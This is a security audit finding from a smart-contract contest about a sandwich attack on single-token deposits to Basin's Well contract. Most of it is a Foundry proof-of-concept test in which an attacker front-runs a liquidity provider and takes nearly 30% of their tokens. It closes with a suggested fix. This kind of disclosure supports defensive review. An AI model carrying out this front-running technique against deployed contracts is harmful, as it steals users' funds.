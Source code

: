 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- primary issue
- satisfactory
- selected for report
- sponsor disputed
- edited-by-warden
- M-11

# [addLiquidity Sandwich Attack for unbalanced token deposits](https://github.com/code-423n4/2023-07-basin-findings/issues/82) 

# Lines of code

https://github.com/code-423n4/2023-07-basin/blob/c1b72d4e372a6246e0efbd57b47fb4cbb5d77062/src/Well.sol#L392-L399
https://github.com/code-423n4/2023-07-basin/blob/c1b72d4e372a6246e0efbd57b47fb4cbb5d77062/src/Well.sol#L495-L517


# Vulnerability details

## Impact
Wells supports adding and removing liquidity in imbalanced proportions. If a user wants to deposit liquidity in an imbalanced ratio (only one token). A attacker can front run the user by doing the same and removing the liquidity directly after the deposit of the user. By doing so the attacker steals a significant percentage of the users funds. This bug points to a mathematical issue whose effects could be even greater.

## Proof of Concept
The following code demonstrates the described vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import {TestHelper, Balances} from "test/TestHelper.sol";

contract Exploits is TestHelper {
    function setUp() public {
        setupWell(2); // Setup Well with two tokens and a balanced token ratio
    }

    function test_add_liquidity_sandwich_attack() public {
        // init attacker and liquidityProvider, gives them some tokens and saves there balances before the attack
        address liquidityProvider = vm.addr(1);
        address attacker = vm.addr(2);
        mintTokens(liquidityProvider, uint256(100 * 1e18));
        mintTokens(attacker, uint256(1000 * 1e18));
        Balances memory liquidityProviderBalanceBefore = getBalances(address(liquidityProvider), well);
        Balances memory attackerBalanceBefore = getBalances(address(attacker), well);

        // liquidityProvider wants to provide liquidity for only one token / not in current token ratio

        // attacker front runs liquidityProvider and add liquidity for token[0] before liquidityProvider
        vm.startPrank(attacker);
        tokens[0].approve(address(well), 1000 * 1e18);
        uint256[] memory amounts1 = new uint256[](2);
        amounts1[0] = 1000 * 1e18; // 10x the tokens of the liquidityProvider to steal more funds
        amounts1[1] = 0;
        well.addLiquidity(amounts1, 0, attacker, type(uint256).max); 
        vm.stopPrank();

        // liquidityProvider deposits some token[0] tokens
        vm.startPrank(liquidityProvider);
        tokens[0].approve(address(well), 100 * 1e18);
        uint256[] memory amounts2 = new uint256[](2);
        amounts2[0] = 100 * 1e18;
        amounts2[1] = 0;
        well.addLiquidity(amounts2, 0, liquidityProvider, type(uint256).max); 
        vm.stopPrank();

        // attacker burns the LP tokens directly after the deposit of the liquidity provider
        vm.startPrank(attacker);
        Balances memory attackerBalanceBetween = getBalances(address(attacker), well);
        well.removeLiquidityOneToken(
            attackerBalanceBetween.lp,
            tokens[0],
            1,
            address(attacker),
            type(uint256).max
        );
        vm.stopPrank();
        Balances memory attackerBalanceAfter = getBalances(address(attacker), well);
        
        // the attacker got nearly 30% of the liquidityProviders token by front running
        // the percentage value can be increased even further by increasing the amount of tokens the attacker deposits
        // and/or decreasing the amount of tokens the liquidityProvider deposits
        assertTrue(attackerBalanceAfter.tokens[0] - attackerBalanceBefore.tokens[0] > liquidityProviderBalanceBefore.tokens[0] * 28 / 100);
    }
}
```

The test above can be implemented in the Basin test suite and is executable with the following command:

```solidity
forge test --match-test test_add_liquidity_sandwich_attack
```

## Tools Used
Manual Review, Foundry, VSCode

## Recommended Mitigation Steps
Investigating the math behind this function further and writing tests for this edge case is necessary. A potential fix could be forcing users to provide liquidity in the current ratio of the reserves.





## Assessed type

MEV
